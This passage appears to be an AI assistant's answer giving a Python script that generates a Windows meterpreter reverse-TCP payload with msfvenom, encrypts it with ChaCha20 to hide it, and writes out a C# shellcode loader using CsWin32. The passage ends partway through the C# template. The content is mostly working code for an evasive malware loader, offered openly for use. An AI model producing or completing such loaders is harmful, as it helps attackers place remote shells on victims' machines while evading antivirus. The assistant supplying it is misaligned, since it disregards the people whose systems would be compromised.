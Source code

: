Let's integrate **CsWin32** to handle the native Windows API calls for executing shellcode. **CsWin32** is a source generator that allows you to use Windows APIs in a type-safe way directly from C# without the need to manually declare P/Invoke signatures.

### **1. Python Script: Generate Encrypted Shellcode and C# Code**

Here’s the updated Python script that generates the C# code using **CsWin32**:

```python
import subprocess
import os
import base64
from Crypto.Cipher import ChaCha20
from Crypto.Random import get_random_bytes

def generate_shellcode():
    # Generate shellcode using msfvenom
    command = [
        "msfvenom", 
        "-p", "windows/x64/meterpreter_reverse_tcp", 
        "LHOST=127.0.0.1", 
        "LPORT=4444", 
        "-f", "raw"
    ]
    shellcode = subprocess.check_output(command)
    return shellcode

def encrypt_shellcode(shellcode):
    key = get_random_bytes(32)  # 256-bit key for ChaCha20
    nonce = get_random_bytes(12)  # 96-bit nonce for ChaCha20

    cipher = ChaCha20.new(key=key, nonce=nonce)
    encrypted_shellcode = cipher.encrypt(shellcode)

    return encrypted_shellcode, key, nonce

def generate_csharp_code(encrypted_shellcode, key, nonce):
    # Base64 encode the shellcode and keys for embedding in C# code
    encrypted_shellcode_b64 = base64.b64encode(encrypted_shellcode).decode('utf-8')
    key_b64 = base64.b64encode(key).decode('utf-8')
    nonce_b64 = base64.b64encode(nonce).decode('utf-8')

    csharp_code = f"""
using System;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using Windows.Win32;
using Windows.Win32.System.Threading;
using Windows.Win32.Foundation;
using Windows.Win32.System.Memory;

namespace ShellcodeLoader
{{
    class Program
    {{
        static void Main(string[] args)
        {{
            // Encrypted shellcode, key, and nonce in Base64 format
            string encryptedShellcodeB64 = "{encrypted_shellcode_b64}";
            string keyB64 = "{key_b64}";
            string nonceB64 = "{nonce_b64}";

            // Convert Base64 strings back to byte arrays
```
